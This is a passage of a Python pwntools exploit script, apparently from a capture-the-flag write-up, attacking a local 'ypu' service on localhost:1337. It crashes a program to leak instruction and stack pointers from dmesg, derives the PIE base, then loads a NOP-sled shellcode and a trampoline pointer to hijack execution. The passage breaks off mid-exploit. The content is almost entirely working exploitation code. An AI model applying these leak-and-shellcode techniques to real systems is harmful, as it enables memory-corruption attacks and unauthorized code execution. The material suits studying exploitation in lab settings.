 ```python
    buf += str(program_index).encode() + b' '
    buf *= batch
    p.send(buf)

def run_ypu(p, ypu_index, batch=1):
    buf = b'run_ypu '
    buf += str(ypu_index).encode() + b' '
    buf *= batch
    p.send(buf)

def quit(p):
    buf = b'quit '
    p.send(buf)

def get_leaks():
    r0 = remote('localhost', 1337)
    crash_program = 15
    crashing_yancode = b'A' * MAX_YANCODE_SIZE
    load_program(r0, crash_program, crashing_yancode)
    quit(r0)

    dmesg = process('dmesg | grep traps | tail -n 1', shell=True)
    dmesg.recvuntil(b'ip:')
    ip_leak = int(dmesg.recvuntil(b' '), 16)
    dmesg.recvuntil(b'sp:')
    sp_leak = int(dmesg.recvuntil(b' '), 16)
    dmesg.kill()

    log.info(f'ip_leak: {hex(ip_leak)} sp_leak: {hex(sp_leak)}')
    return ip_leak, sp_leak

def main():    
    p = process(BINARY)
    input("Press enter to start..")
    log.info("Exploit starts!")
 
    ip_leak, sp_leak = get_leaks()
    pie_base = ip_leak - 0x172f
    log.info(f'pie_base: {hex(pie_base)}')
    assert(pie_base & 0xfff == 0)
    
    r1 = remote('localhost', 1337)
    input("Press enter to load yancode to mmap'ed buffer..")
    yancode_program = 0
    yancode = gen_yancode()
    load_program(r1, yancode_program, yancode)

    target_ypu = 0
    init_ypu(r1, target_ypu, yancode_program)

    input("Press enter to load and execute shellcode..")
    ypu_0_mmap_addr = pie_base + binary.symbols['data'] + 8
    log.info(f'ypu_0_mmap_addr: {hex(ypu_0_mmap_addr)}')

    shellcode_program = 0
    shellcode = b'\x90' * 0x100
    shellcode += asm(SHELLCODE.format(ypu_0_mmap_addr, ord(Opcodes.CMP), ord(Opcodes.SYSCALL)))
    shellcode += b'\x90' * (MAX_YANCODE_SIZE - len(shellcode))
    load_program(r1, shellcode_program, shellcode)

    shellcode_addr = sp_leak - 0x3008
    trampoline_program = 15
    trampoline = p64(shellcode_addr)
```

[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html